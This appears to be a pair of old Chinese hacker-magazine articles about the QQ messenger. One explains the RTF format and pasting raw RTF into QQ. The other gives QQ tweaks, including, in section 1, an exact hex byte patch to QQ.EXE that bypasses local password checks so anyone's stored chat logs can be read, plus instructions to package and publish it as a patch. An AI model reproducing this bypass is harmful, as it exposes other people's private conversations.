前一段时间网络中闹得沸沸扬扬的QQ非法操作，使得很多网友深受其害。攻击者只是发送一些RTF代码，就使得对方的QQ出现非法操作。这一期的黑客防线我们就RTF起因谈起，讲讲为什么QQ会出现此类问题。

# RTF玩转QQ

## 诡异安全篇

文/softbug

Rtf，全称Rich text Format，它是一种很知名的文件格式，在Word中最常被用到。今天我们主要为大家讲解如何用RTF文件格式来玩转QQ。

从新版本的QQ 0630以后就可以发送彩色文字和图形起，我们就知道QQ可以支持RTF文件格式了。现在的QQ版本完全脱离了原来单一的文本模式。在Windows系统中，RTF主要的表现形式是：以利用RTF控件来获取对文本和图形的多样化控制（可能对RAD编程比较熟悉的读者就知道）。如果你不信，我们可以用VISUAL STUDIO中的SPY++工具来检测，结果我们观察到在QQ发送消息和接受消息时的文本框类型是Rich Text类型。请大家不要嫌我啰嗦，在玩转QQ以前，我们有必要来对RTF文件以及其代码格式有一个了解。在Windows系统中，我们的RTF控件的支持文件是：Riched20.dll，通常版本是Richedit Version 3.0。这里的版本不是指的文件的版本信息，而是指文件内部的功能版本号。在网上你还可以下载到更新的版本。

RTF控件一共支持两种格式的文本。一种是没有任何格式的普通ASCII文件，一种就是带有丰富代码格式的文本信息。它的格式很像HTML语言的格式。如果你会超文本编辑的话，那么你很快就会对RTF文件代码格式入门的。对于许多人来说，HTML已经十分熟悉了，可是对于RTF则不太了解，如果你在网上搜索一下，你也会发现关于RTF文件格式的资料相当的难找。

下面就来分析一下RTF的结构：RTF的结构其实并不复杂，实际上每个RTF文件都是一个文本文件，里面包括“命令”和“正文”，然后由编辑器来解释这个文本文件。分析里面的各种命令，并将相应的正文显示出来。RTF文件中的命令都是一些以"\\"符号开始的字符串，例如在文件的一开始就以"\\rtf"来表示这个文件是一个RTF格式的文件。另外，一个完整的RTF文件包括文件头和文件体两部分。在文件头中包括字体表、文件表、颜色表的几个数据结构，文件体中的字体、表格的风格都是根据文件头中的信息来格式化的。文件头中的每一个表都以一对大括号括起来。

看看下面的例子：

```
rtf
{\colortbl ;\red0\green0\blue255;}
```

首先，由一个"\\colortbl"来表示大括号内是颜色表，然后由\red0\green0\blue0来表示正文显示时用到的一种颜色。3种颜色分别用3种分量来表示，这种颜色的蓝色分量为255，其他以此类推，两种颜色之间用分号隔开。在内容中以"\\cf0"命令来表示当前的文字用第0号颜色来显示。文件体由版面格式化命令、正文和各种特殊命令组成。版面格式化命令是用来控制要显示的正文的字体、颜色和其他与版面有关的项目的。而特殊的命令则是在显示一些例如图像、表格等特殊正文时所使用的。有一些特殊命令会用到大括号来括住它的一些子命令，但无论如何，左大括号的数目和右大括号的数目是一一对应的（注意：整个RTF文件也由一对大括号括起来）。这种HTML文件是不是很相似呢？另外，在由于字符"\\"用来表示命令的开始，所以用"\\\\"来表示正文中的字符"\\"，这又有点像C++语言。

对于中文字，RTF文件进行了特殊的处理，众所周知，一个中文字是由一个16位的数字组成的内码来表示的，也就是两个ASCII字符的长度。RTF文件中并不是简单地将这两个ASCII字符放在正文中，因为这样会引起特殊ASCII字符和中文字的冲突。RTF文件使用了命令的方式来表示中文字：

> "\\'内码1\\'内码2" 其中的内码是以文本的方式存储的。例如"黑客防线"在RTF中表示为："\\'ba\\'da\\'bf\\'cd\\'b7\\'c0\\'cf\\'df"。

RTF文件对图形的处理也是一个很重要的问题。在RTF文件中，图形以两种方式存在。第一种是直接嵌入的方式，以"\\pict"命令开始；第二种方式将图片作为OLE对象嵌入，以"\\object"命令开始。并且无论以哪种方式，整个图片的数据都是由一对大括号括起来的（即"{\\object……}"）。每一个OLE对象在RTF中分为两个部分，第一部分是OLE的数据，如果RTF的文件解释器能进行OLE操作时，可以利用这部分的数据得到OLE的属性参数并对其进行修改显示，第二部分由"\\result"命令引出，后面跟的其实是一个图片，当RTF的文件解释器不能进行OLE操作时，则可以简单地显示该图片。但这样就不能对该OLE对象进行修改了。图片数据是以Microsoft内部使用的一种矢量图"METAFILE"格式来存储的。在RTF中存放了一个完整的METAFILE文件，但其数据是以ASCII字符的方式存在。现在，大家在对RTF文件有了简单的了解以后，我们来看看下面这个简单的例子：

```
rtf
{\rtf1\ansi\ansicpg1252\deff0\deflang1033{\fonttbl
{\f0\fnil\fcharset134 \'cb\'ce\'cc\'e5;}
{\f1\fnil\fcharset0 Times New Roman;}}{\colortbl
;\red0\green0\blue255;}
\viewkind4\uc1\pard\cf1\f0\fs20 \'ba\'da\'bf\'cd\'b7\'c0\'cf\'df\cf0\f1\par
}
```

你能对上面的语句作一个分析了吗？

- 1. `{\rtf1\ansi\ansicpg1252\deff0\deflang1033;` 对RTF文件代码用到的编码格式做了一些简单的声明，致意代码以`\rtf`开头，结尾用`}`呼应。注意我用颜色来标识的地方。
2. `{\fonttbl{\f0\fnil\fcharset134 \'cb\'ce\'cc\'e5;};` 定义了字体表。如果文件中用到了什么字体，那么代码中就会在这里定义出来。在这里，我们定义了`f0`这个字体代号。
3. `{\colortbl ;\red0\green0\blue255;};` 定义了颜色表，上面我们说过了。
4. `viewkind4\uc1\pard\cf1\f0\fs20 \'ba\'da\'bf\'cd\'b7\'c0\'cf\'df\cf0\f1\par;` 中我们定义了"黑客防线"4个字。注意，正文是用`;`来分割的。这个特别的地方就是已经没有了前面的`{`号了。

事实证明，我们可以直接在QQ里发送RTF文件格式的代码，不信你可以试试。当然了，QQ也自带了许多的图形。等我们发送带有图形的消息的时候，我们其实发送的是一些代码。把下面的代码直接粘贴到你的QQ里面，就可以直接发送两个字号为72号的红通通的"呵呵"两个字：

```
rtf
{\rtf1\ansi\ansicpg1252\deff0\deflang1033{\fonttbl
{\f0\fnil\fcharset134 \'cb\'ce\'cc\'e5;}
{\f1\fnil\fcharset0 Times New Roman;}}{\colortbl
;\red255\green0\blue0;}
\viewkind4\uc1\pard\cf1\f0\fs144\'ba\'c7\'ba\'c7\cf0\f1\fs20\par
}
```

试问，如果你不直接用RTF代码来发送，你可以在QQ里面做到吗？QQ只提供22号字体，快给你的朋友一个惊喜吧。可能有朋友要问了，RTF代码那么复杂，我们怎么可以得到稍微复杂的代码呢？这里有一个小技巧。你可以用写字板程序来设计你要的东西，最后保存为RTF文件格式就可以了。为什么我们不用Word来设计呢？因为Word会在设计好的文字里面加入许多冗余的代码。最后，关键的一点就是文件一定要用记事本来打开，直接复制到QQ里面就可以了（我在想：如果把字体设置为900号，那么QQ会有什么反应呢？提醒一下大家：QQ可是限制了你发送文字的数量限制的哟！发挥你的想像力多写出点代码来吧。（下转第25页）

QQ是我们最熟悉的聊天工具，针对QQ的工具有很多，但是基本都是有软件作者开发，读者仅仅是下载使用而已，没有新鲜感，那么我们有没有试过自己动手做一个QQ工具呢？或者自己动手让自己的QQ与众不同呢？如果有兴趣，就和我一起开始打造有自己个性的QQ！

# QQ最新技巧入门

文/target

## 1. 制作自己的QQ聊天记录查看器

网上有款软件叫QQ聊天记录查看器，可以在离线状态下无需输入密码或输入任意密码都可以进入QQ，也就是说它可以突破QQ的本地密码验证，进而才可以看到QQ聊天的内容。其实，我们自己也可以做这样一款软件，而且无需编程，其核心就是突破本地密码验证，然后利用Keymake制作补丁程序，即可制作出自己的QQ聊天记录查看器。

对于最新版的QQ2000C Build 1230，我们可以这样做：下载并安装16进制文件编辑器UltraEdit，这是一款出色的文件编辑软件，可以对EXE、DLL等可执行文件进行编辑修改。你可以在这里下载它的最新版：http://www.downme.com/download/DownMe.com_13559uesetup.exe。运行UltraEdit，用它打开QQ的主文件QQ.EXE，点击"搜索"菜单下的"查找"，在出现的对话框的"查找什么"栏中填入"85C05F0F8489000000"（图1），



85C05F0F8589000000，然后点击"文件"菜单中的"保存"，关闭UltraEdit，在离线状态下运行QQ，出现QQ的登录界面，在QQ号码列表框中找到你的号码，无需输入密码或输入任意密码都可以直接进入QQ中！呵呵，我们突破了QQ的本地密码验证！现在，想看哪个号码的聊天记录都可以了！

要想制作自己的QQ聊天记录查看器，到这儿才完成了一半。我们还要利用另外一款工具软件：Keymake。Keymake是国人开发的软件，用



击"下一个"按钮，查找这些字符串，会找到惟一的一处结果（图2）。将找到的结果改为：



它来制作补丁或软件的注册机非常的方便。下载地址：http://211.86.67.4/myweb/kanxue/tools/tools/Patchers/KEYMAKE/keymake1.73.zip。下载安装完毕Keymake，运行该软件，你可以看到它的界面（图3），点击"其他"菜单下的"制作补丁文件"，会出现一个制作补丁文件窗口（图4），在"窗口标题"中输入：QQ聊天记录查看器，在"你的主页"和"你的邮件"中输入你的相关信息，在"补丁说明"中输入：本补丁只对QQ2000C Build 1230有效，它可以让你无需输入密码就可以进入QQ，当然必须是在离线状态下才行，你可以利用它来查看QQ的聊天记录，在应用前请备份自己的QQ主文件。

接下来，点击"浏览"按钮分别找到"原始的文件"（用UltraEdit修改前的QQ.exe）和"已破解文件"（修改后的QQ.exe），最后点击"制作"按钮，会弹出对话框让你选择生成的补丁文件保存的路径和文件名（图5），然后就可以到你保存的文件夹下找到这个补丁文件使用了！这个补丁文件非常小，只有6KB！运行它看看，你刚刚输入的内容都在主界面中，还不错吧（图6）！是不是很有成就感？如果你想让别人分享你的劳动成果，可以在网上发布它，现在你的大名就在网上响亮起来了！呵呵。）







## 2. 拥有属于自己的"专版"QQ

拥有属于自己的"专版"QQ，是每一个人的梦想，它可以让你的QQ个性十足，在朋友面前更有面子！要想实现这一目标其实也不难，只要你拥有eXeScope这款资源修改软件就可以达到自己的目的。你可以在这里下载该软件：http://newhua.ruyi.com/down/EXESC630.ZIP。安装完毕运行eXeScope，点击"文件"菜单下的"打开"，找到QQ安装目录中的QQRes.dll文件打开，然后在左边的窗口中顺次展开"资源"→"对话框"→"430"，对应的是QQ"关于QQ"对话框（图7）。点一下Static:QQ2000C Build 1230这一行，在"标题"栏中会出现对应的文字，将其改为你需要的文字内容就可以了！比如说，我将它就改为了"QQ2000C target 版"（图8），可以让一些菜鸟大吃一惊了！

从上面可以看出1230版的QQ其资源隐藏在QQRes.dll文件中，而不是像以前那样在QQ的主文件中，这一点请大家注意了。另外，要告诉大家的是使用本技巧后，不影响你改QQ彩蛋。注意，你改后的字符总数之和不能超过原来的字符数，否则无法保存修改结果。





## 3. 挖出QQ的部分隐藏功能

利用 eXeScope，我们还可以挖出 QQ 的部分隐藏功能。在 eXeScope 中点击“资源”→“对话框”→“455”，这是 QQ 的“参数设置”对话框对应的资源，可以看出腾讯在这里隐藏了两个非常实用的功能：“自动隐藏”和“自动通过服务器中转”。“自动隐藏”这个功能可以使你一使用 QQ 就处于隐身状态，别人看不到你；“自动通过服务器中转”可以欺骗对方网络不通畅，实现在在线状态下服务器中转欺骗，也就是说在对方看来你发过来的消息都是通过服务器中转过来的。我们可以看到，之所以这两个功能没有出现在 QQ 的“参数设置”对话框中，是因为在 eXeScope 的右侧窗口中的“样式”标签下的“可见”没有被选上，所以只要我们分别选中这两个隐藏功能对应的内容，然后在“可见”前面打上“√”（图9），然后保存修改结果就可以把这两个隐藏功能挖出来了。



## 4. 拒绝QQ广告

大家知道，QQ 的广告是从腾讯的 QQ 服务器上下载到我们的电脑中的，保存在 QQ 按照目录下的 AD 子目录中，如果可以禁止往该目录中写入文件，则 QQ 就不会下载广告了。Folder Guard 这款软件可以满足我们的要求，它是一个目录加密工具，可以将目录隐藏或者设置为只读，对系统文件、控制面板以及其他的应用程序都可以进行保护。Folder Guard 的下载地址是：http://www.downme.com/download/DownMe.com_13624fgpro.exe。

运行 Folder Guard，在左侧窗口中找到 QQ 安装目录下的 AD 子目录，然后点击“Attributes”菜单中的“Access”→“Read-Only”（图10），将 AD 目录设置为“只读”属性，然后单击“Tools”菜单中的“Enable Protection”，启用保护功能。最后，再单击“Files”→“Settings”→“Enable Protection at Windows startup”，设置为在 Windows 启动时启用保护，这样就可以将 QQ 下的 AD 文件夹设为禁止写入文件模式，QQ 就再也无法保存下载的广告文件了，如此一来，我们就可以拒绝 QQ 的广告了。

